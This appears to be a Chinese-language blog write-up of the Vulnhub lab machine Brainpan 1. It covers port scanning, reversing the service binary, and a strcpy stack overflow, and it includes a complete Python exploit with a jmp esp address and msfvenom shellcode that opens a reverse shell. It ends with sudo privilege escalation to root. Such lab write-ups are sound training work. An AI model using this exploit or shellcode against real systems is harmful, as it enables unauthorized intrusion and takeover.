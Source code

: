 ```yaml
---
title: Vulnhub - Brainpan の Write-Up
date: 2020-11-20 16:25:49
categories:
- WriteUPs
- Vulnhub
tags:
- Web
- Reverse
---
```

## Description

&emsp;&emsp;`Vulnhub`靶机`Brainpan`系列的第一台。整体难度中等。

<!-- more -->

## Step 1

&emsp;&emsp;首先找靶机IP：

![](/img/Brainpan1/Brainpan1.png)

&emsp;&emsp;扫描靶机开放端口：

![](/img/Brainpan1/Brainpan2.png)

## Step 2

&emsp;&emsp;9999端口：

![](/img/Brainpan1/Brainpan3.png)

&emsp;&emsp;看起来需要一个密码，只能先跳过。

&emsp;&emsp;10000端口是http的服务，浏览器看上去只是一张图片的静态页面：

![](/img/Brainpan1/Brainpan4.png)

&emsp;&emsp;目录扫描发现有个bin目录：

![](/img/Brainpan1/Brainpan5.png)

&emsp;&emsp;访问bin目录，有个exe文件：

![](/img/Brainpan1/Brainpan6.png)

## Step 3

&emsp;&emsp;通过IDA逆向之后发现这是9999端口运行的程序：

![](/img/Brainpan1/Brainpan7.png)

&emsp;&emsp;在程序中发现一个`get_reply`函数：

![](/img/Brainpan1/Brainpan8.png)

&emsp;&emsp;在函数中可以看到调用strcpy，而在主函数中&Dest长度可以到1000字节，get_reply函数中Source只有0x208字节即520字节。所以这里存在栈溢出漏洞，当填充了`520(Source_data)+4(EBP)`总共524字节的数据之后就可以控制函数的返回地址。

&emsp;&emsp;由于程序中没有可以直接getshell的函数，所以需要我们将shellcode写入的buf中，通过jmp esp命令控制程序跳转到buf执行命令。

&emsp;&emsp;在程序中找到311712F3的地址有jmp esp指令，再通过msfvenom生成payload：

![](/img/Brainpan1/Brainpan9.png)

&emsp;&emsp;最终的利用脚本为：

```Python
import socket

target_ip = '172.16.83.3'
target_port = 9999

# padding with 'a'
padding = '\x61' * 524

# address of 'jmp esp' command - 0x311712F3
jmp_esp = '\xF3\x12\x17\x31'

# shellcode
buf =  b""
buf += "\x90" * 30
buf += b"\xbf\x23\x22\x77\xf6\xd9\xe1\xd9\x74\x24\xf4\x5a\x33"
buf += b"\xc9\xb1\x12\x31\x7a\x12\x03\x7a\x12\x83\xc9\xde\x95"
buf += b"\x03\x3c\xc4\xad\x0f\x6d\xb9\x02\xba\x93\xb4\x44\x8a"
buf += b"\xf5\x0b\x06\x78\xa0\x23\x38\xb2\xd2\x0d\x3e\xb5\xba"
buf += b"\x21\xd0\x16\x38\x52\xd3\x98\x2d\xfe\x5a\x79\xfd\x98"
buf += b"\x0c\x2b\xae\xd7\xae\x42\xb1\xd5\x31\x06\x59\x88\x1e"
buf += b"\xd4\xf1\x3c\x4e\x35\x63\xd4\x19\xaa\x31\x75\x93\xcc"
buf += b"\x05\x72\x6e\x8e"

payload = padding + jmp_esp + buf

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((target_ip, target_port))

s.recv(1024)
s.send(payload)
```

&emsp;&emsp;运行脚本之后就可以获取反弹shell：

![](/img/Brainpan1/Brainpan10.png)

## Step 4

&emsp;&emsp;根据之前靶机题权最简单的方式，直接查看sudo权限，提示我们可以以root权限运行`/home/anansi/bin/anansi_util`：

![](/img/Brainpan1/Brainpan11.png)

&emsp;&emsp;sudo执行之后根据命令提示可以直接接命令，所以当接上`/bin/bash`命令之后就可以获得root权限的shell。
